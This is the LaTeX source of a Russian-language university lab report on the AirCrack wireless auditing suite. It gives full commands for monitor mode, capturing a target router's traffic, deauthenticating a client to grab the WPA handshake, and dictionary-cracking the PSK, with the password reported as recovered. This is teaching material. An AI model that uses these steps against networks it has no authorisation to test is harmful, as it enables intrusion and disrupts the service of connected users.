\documentclass[10pt,a4paper]{report}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\renewcommand{\thesection}{\arabic{section}}
\setcounter{totalnumber}{10}
\setcounter{topnumber}{10}
\setcounter{bottomnumber}{10}
\renewcommand{\topfraction}{1}
\renewcommand{\textfraction}{0}
\author{Евсеев Дмитрий}
\title{Лабораторная работа №4.\\
	Набор инструмента для аудита беспроводных сетей AirCrack}
\begin{document}
\maketitle
\tableofcontents
\pagebreak

\section{Цель работы}

Изучить основные возможности пакета AirCrack и принципы взлома WPA/WPA2 PSK и WEP.

\section{Ход работы}

\subsection{Основные утилиты пакета}

\begin{itemize}
	\item airmon-ng - позволяет определить имеющиеся беспроводные интерфейсы и назначить режим мониторинга сети на один из доступных интерфейсов. Синтаксис:
	
	\begin{verbatim}
	airmon-ng <start|stop> <interface> [channel]
	\end{verbatim}
	
	\item airodump-ng - перехват пакетов протокола 802.11
	\item aireplay-ng - генерация трафика, то есть принудительно заставить общаться клиента с точкой доступа.
	\item aircrack-ng - анализ перехваченных пакетов. Синтаксис команды aircrack-ng различен для WEP- и WPA-PSK-шифрования. Общий синтаксис команды следующий:
	
	\begin{verbatim}
	aircrack-ng [options] <capture file(s)>
	\end{verbatim}
	
\end{itemize}

\subsection{Запуск режима мониторинга на беспроводном интерфейсе}
Запустить режим мониторинга можно командой
\begin{verbatim}
airmon-ng start [Interface name]
\end{verbatim}

\begin{figure}[h]	
	\center{
\includegraphics[width=0.8\linewidth]{Img/1}}
	\caption{Запуск режима мониторинга на беспроводном интерфейсе wlan0.}
	\label{Img:1}
\end{figure}
\pagebreak

\subsection{Запуск сбора трафика}

Для сбора трафика используется утилита airodump. 

Синтаксис:
\begin{verbatim}
airodump-ng <options> <interface>[,<interface>,...]
\end{verbatim}

Опции:
\begin{itemize}
	\item --ivs : Сохранять только отловленные IVы. Короткая форма -i.
	\item --gpsd : Использовать GPS. Короткая форма -g.
	\item --write <prefix> : Перфикс файла дампа. Короткая форма -w.
	\item --beacons : Записывать все маяки в файл дампа. Короткая форма -e.
	\item --netmask <netmask> : Фильтровать точки по маске. Короткая форма -m.
	\item --bssid <bssid> : Фильтровать точки по BSSID. Короткая форма -d.
	\item --encrypt <suite> : Фильтровать точки по типу шифрования. Короткая форма -t
	\item -a : Фильтровать неасоциированых клиентов
	
	По умолчанию, airodump-ng отслеживает каналы на частоте 2.4Ghz.
	Вы можете заставить ее отслеживать пакеты на другом/определенном канале используя:
	\item --channel <channels>: Определить канал. Короткая форма -c.
	\item --band <abg> :Полоса на которой airodump-ng будет отлавливать
	пакеты. Короткая форма -b.
	\item --cswitch <method> : Установить метод переключения каналов. Короткая форма -s.
	
	0 : FIFO (по умолчанию)
	
	1 : Round Robin
	
	2 : Hop on last
\end{itemize}

Запуск режима сбора трафика запускается командой
\begin{verbatim}
sudo airodump-ng wlan0
\end{verbatim}

\begin{figure}[h!]	
	\center{
\includegraphics[width=0.8\linewidth]{Img/2}}
	\caption{Процесс сбора данных для получения сообщений.}
	\label{Img:2}
\end{figure}
\pagebreak

Выберем сеть для проведения дальнейшей атаки со следующим mac-адресом:  

\begin{verbatim}
C8:BE:19:87:5F:7E  DIR-615
\end{verbatim}

Начинаем ее сканирование. Вывод в файл dir615-aircrack.

\begin{verbatim}
sudo airodump-ng wlan0 --write dir615-aircrack --bssid C8:BE:19:87:5F:7E -c 2
\end{verbatim}

\begin{figure}[h!]	
	\center{
\includegraphics[width=0.8\linewidth]{Img/3}}
	\caption{Процесс сбора данных для получения сообщений в конкретной сети.}
	\label{Img:3}
\end{figure}

Нам необходимо перехватить handshake, который передается только лишь при инитиализации подключения хоста к беспроводному маршрутизатору. Если продолжительное время не происходит подлючений, можно провести деаутентификацию одного из узлов. Например, с MAC-адресом 10:08:C1:83:29:BA.

\begin{verbatim}
sudo aireplay-ng -0 1 -a C8:BE:19:87:5F:7E -c 10:08:C1:83:29:BA wlan0
\end{verbatim}

\begin{figure}[h!]	
	\center{
\includegraphics[width=0.8\linewidth]{Img/4}}
	\caption{Деаутентификация клиента.}
	\label{Img:4}
\end{figure}

В результате, airodump выводит сообщение о том, что был пойман handshake:

\begin{figure}[h!]	
	\center{
\includegraphics[width=0.8\linewidth]{Img/5}}
	\caption{Окно утилиты airodump с сообщением о пойманном handshake.}
	\label{Img:5}
\end{figure}
\pagebreak

\subsection{Взлом с использованием словаря паролей}
В результате предыдущего этапа получен handshake и следовательно можно попытаться подобрать пароль от беспроводной сети по словарю. Для этого выполним следующую команду:

\begin{verbatim}
sudo aircrack-ng -w password.lst -b C8:BE:19:87:5F:7E dir615-aircrack*.cap
\end{verbatim}

Где dir615-aircrack*.cap - маска названий файлов дампа, password.lst - путь к файлу-словарю для перебора.

Пароль успешно подобран.

\begin{figure}[h!]	
	\center{
\includegraphics[width=0.8\linewidth]{Img/6}}
	\caption{Подбор пароля.}
	\label{Img:6}
\end{figure}
\pagebreak

\section{Выводы}
По результатам выполненной работы были изучены основные возможности пакеты AirCrack и принципы взлома беспроводных сетей на основе WPA/WPA2 PSK. Среди возможностей можно отметить перехват пакетов, генерация трафика (в том числе деаутентификация клиентов), анализ пакетов и подбор паролей. Так как взлом осуществляется методом поиска по паролю или полному перебору, то взломать WPA при сложном пароле весьма проблематично. Протокол WEP таки является более уязвимым, из-за чего же применяется все реже.

\end{document}
